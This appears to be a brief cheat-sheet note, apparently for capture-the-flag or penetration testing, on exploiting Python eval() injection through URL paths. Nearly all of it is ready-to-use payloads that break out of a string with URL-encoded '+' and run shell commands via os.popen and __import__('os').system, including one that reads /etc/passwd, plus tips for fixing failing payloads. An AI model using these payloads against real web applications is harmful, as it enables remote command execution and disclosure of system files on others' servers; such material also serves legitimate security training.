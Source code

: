 ### Eval used?:
`/hello/"%2bos.popen('ls').read()%2b"`  

_what if there is no system module??_    We IMPORT it :D    **__import__('os').system('ls')**  
If you are grappling with erros, try t run your commands in a python terminal and see if it works
Example of the above 2 points:  
`hello/ddd"%2bstr(__import__('os').system('ls'))%2b"`  
`/ddd"%2bstr(__import__('os').popen('cat%20/etc/passwd').read())%2b"`

Above we can see that the os module has been imported as well as tthe command being evaluated as a string, as python was trying to eval as an int

